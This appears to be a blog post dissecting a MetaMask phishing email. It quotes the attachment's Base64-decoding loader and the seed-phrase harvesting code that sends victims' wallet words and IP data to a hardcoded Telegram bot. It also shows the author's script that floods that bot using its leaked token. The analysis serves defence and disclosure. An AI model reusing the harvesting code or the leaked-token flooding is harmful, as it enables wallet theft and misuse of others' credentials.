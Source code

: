 ```yaml
---
title: "Dissecting a MetaMask phishing email"
date: 2024-10-27T21:04:50+02:00
draft: false
tags: ["phishing"]
image: "002.png"
post_number: "002"
---
```


A few days ago, I received a pretty credible-looking MetaMask phishing email stating that my account had been locked due to an attempt to connect a new device to it. It sparked my interest and I decided to spend a bit of time looking into how the technical side of the whole campaign was structured, and potentially even disrupt it.

## Email attachment

The attached HTML file RemovedDevice.html contained a barebones HTML structure with a bit of JS and a long Base64 encoded string that'd get decoded and attached back to the HTML body using jQuery.

```javascript
$(document).ready(function () {
  saveFile();
});

function saveFile(name, type, data) {
  if (data != null && navigator.msSaveBlob)
    return navigator.msSaveBlob(new Blob([data], { type: type }), name);
  var a = $("<a style='display: none;'/>");

  var encodedStringAtoB = "<base64-encoded-string>";
  var decodedStringAtoB = atob(encodedStringAtoB);
  const myBlob = new Blob([decodedStringAtoB], { type: "text/html" });
  const url = window.URL.createObjectURL(myBlob);

  a.attr("href", url);
  $("body").append(a);
  a[0].click();
  window.URL.revokeObjectURL(url);
  a.remove();
}
```

The resulting page would display 12/15/18/21/24 input fields for crypto wallet seed phrases of varying lengths.

The backend of this campaign relied on Telegram, and as usual neither the API token nor the chat ID were even attempted to be obfuscated. This could be tied to the fact that even the template usage information was still present in the source code :^\)

Telegram's chat IDs are structured in a way where supergroups and channels always have IDs with -100 prefix, so it was straightforward to determine that this campaign's data was being exfiltrated into a private chat.

```javascript
// Add your telegram token,chatid
const token = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0";
const chatId = "7839331161";
```

Before sending the gathered information to the chat, the JS snippet would also make a quick GET request to get the victim's public IP and related location data. I couldn't really figure out the point of this as MetaMask is a self-custodial wallet and doesn't utilize any kind of fraud prevention system that could stop the attacker from draining the targeted account if their geolocation didn't match the wallet's owner.

```javascript
wordForm1.addEventListener("submit", (e) => {
  e.preventDefault();
  errbox.classList.add("hide");
  let regex = /[!`@#$~%^&*()\-+={}[\]:;"'<>,.?\/|\\]/;
  let regex2 = /\d/;
  let pass = false;

  for (let i = 0; i < word12Input.length; i++) {
    if (regex.test(word12Input[i].value) || regex2.test(word12Input[i].value)) {
      pass = true;
    }
  }
  if (pass) {
    errbox.classList.remove("hide");
  } else {
    if (
      word12_1.value === "" ||
      word12_2.value === "" ||
      word12_3.value === "" ||
      word12_4.value === "" ||
      word12_5.value === "" ||
      word12_6.value === "" ||
      word12_7.value === "" ||
      word12_8.value === "" ||
      word12_9.value === "" ||
      word12_10.value === "" ||
      word12_11.value === "" ||
      word12_12.value === ""
    ) {
      btncofirm1.disabled = true;
    } else {
      preloader.classList.remove("hide");

      let data = `IP: ${ip.ip}\nRegion: ${ip.region}\nTime Zone: ${ip.timezone}\nWord 1: ${word12_1.value} \nWord 2: ${word12_2.value} \nWord 3: ${word12_3.value} \nWord 4: ${word12_4.value} \nWord 5: ${word12_5.value} \nWord 6: ${word12_6.value} \nWord 7: ${word12_7.value} \nWord 8: ${word12_8.value} \nWord 9: ${word12_9.value} \nWord 10: ${word12_10.value} \nWord 11: ${word12_11.value} \nWord 12: ${word12_12.value}`;
      postData(data);
      setTimeout(() => {
        preloader.classList.add("hide");
        noDone.classList.add("hide");
        done.classList.remove("hide");
        timer2(10);
      }, 4000);
    }
  }
});
```

## Greetings

Using the API token and the chat ID I was able to find out a bit more information about the bot itself via a getMe request and even flood the operator's inbox with randomly generated data to make it more difficult to detect any actual seed phrases from a large amount of made-up responses:

```json
{
  "ok": true,
  "result": {
    "id": 7686154983,
    "is_bot": true,
    "first_name": "wegomakeit",
    "username": "wegomakeit_bot",
    "can_join_groups": true,
    "can_read_all_group_messages": false,
    "supports_inline_queries": false,
    "can_connect_to_business": false,
    "has_main_web_app": false
  }
}
```

```python
import random
import requests
from time import sleep
from address import generate_residential_ip
from phrase import generate_seed_phrase, bip39_words

TOKEN = "7686154983:AAFtpdY6iTjT7UiTK6cXh0fM2T4CKfjRHl0"
CHAT_ID = "7839331161"
API_BASE_URL = f"https://api.telegram.org/bot{TOKEN}"


def construct_msg(words):
    ip, region, timezone = generate_residential_ip()
    phrase = generate_seed_phrase(words, random.choice([12, 15, 18, 21, 24]))

    ip_str = f"IP: {ip}\nRegion: {region}\nTime Zone: {timezone}\n"
    phrase_str = ""

    for i, w in enumerate(phrase):
        w_str = f"Word {i + 1}: {w} \n"
        phrase_str += w_str

    return ip_str + phrase_str


def send_msg(words, chat_id):
    payload = {"chat_id": chat_id, "text": construct_msg(words)}
    res = requests.post(f"{API_BASE_URL}/sendMessage", data=payload)
    print(res.text)


words = bip39_words()

while True:
    send_msg(words, CHAT_ID)
    sleep(random.randint(1, 10))
```

I left the bot running in a Docker container for some time, and in the end I was able to send roughly 10k messages before the operator revoked the API token. The whole campaign was ruined at this point as the original token was hardcoded into the attachment, and replacing it in the already-sent emails wouldn't be possible.

Next time I get a cryptocurrency-related phishing email like this, I'd like to try tracking the stolen funds by giving out the seed phrase of a fresh wallet with e.g. $5-10 USD worth of funds inside and see what kind of anti-forensic methods the attacker would utilize (although given the quality of this campaign, they'd probably just deposit immediately into a full-KYC CEX).
